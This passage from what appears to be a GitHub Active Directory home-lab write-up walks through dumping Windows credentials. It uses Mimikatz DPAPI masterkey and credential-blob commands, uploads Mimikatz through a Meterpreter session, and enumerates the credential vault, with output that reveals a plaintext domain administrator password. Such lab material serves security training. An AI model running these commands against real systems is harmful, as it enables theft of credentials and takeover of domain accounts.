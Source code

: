 
- Copy the path and navigate back to the Task tab. Paste the path with cmd `dpapi::masterkey /in:<PATH> /rpc`

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/86f7c54b-7f59-4363-8971-23ae9cc11a6b)

- This cmd results in a key we need further.

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/13ade35c-35cc-47b8-b4ba-b1ca08b9b600)

- Now, it's time to dump plain text passwords, so to dump the credentials we need cmd `dpapi::cred /in:C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5` followed by master key we retrieved earlier.
- Move to the Task tab, by using Mimikatz we insert the cmd:

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/b9149da9-8ee4-45ff-a967-a08d3de9a1b1)

```shell
(singhx) > Mimikatz /command:"\"dpapi::cred /in:C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials\9FD43B9DAC2EECAA50270662B8E497D5 /masterkey:0983cce4cef1f8150b383205fa29c567893b38e5e0a221cfcfb5632d3cb76b8bda0a3b2ee82050e91717bc35ad573425358e50bb1f63ef6766aea11b886e7f48\""

  TargetName     : Domain:target=TERMSRV/dc01
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : mayorsec\administrator
  CredentialBlob : Password123!
  Attributes     : 0
```

## 14. Cracking Vault Credentials using Metasploit

- Interact with the session we have, then we need to load mimikatz to the target system.

```shell
meterpreter > upload labs/home_lab/M_P_P_Tools/mimikatz/x64/mimikatz.exe C:\\Users\\Public\\mimikatz.exe
```
- By typing the `shell` we will get the shell over the meterpreter.
- Change the directory to the mimikatz uploaded folder.
- Now, We will enumerate the credentials file by using the cmd:

```shell
C:\Users\Public>dir /a C:\users\s.chisholm.mayorsec\appdata\local\microsoft\credentials

07/26/2023  03:21 PM               396 9FD43B9DAC2EECAA50270662B8E497D5
```

- Load the mimikatz to the target system by calling `mimikatz.exe`
- We will use the cmd `vault::cred` to make sure the credentials are available.

```shell
mimikatz # vault::cred

TargetName : TERMSRV/dc01 / <NULL>
UserName   : mayorsec\administrator
Comment    : <NULL>
Type       : 2 - domain_password
Persist    : 2 - local_machine
Flags      : 00000000
Credential : 
Attributes : 0
```
- Now, we need to do `dpapi::cred` followed by the `credentials` path and file name to get the `guidmasterkey`.
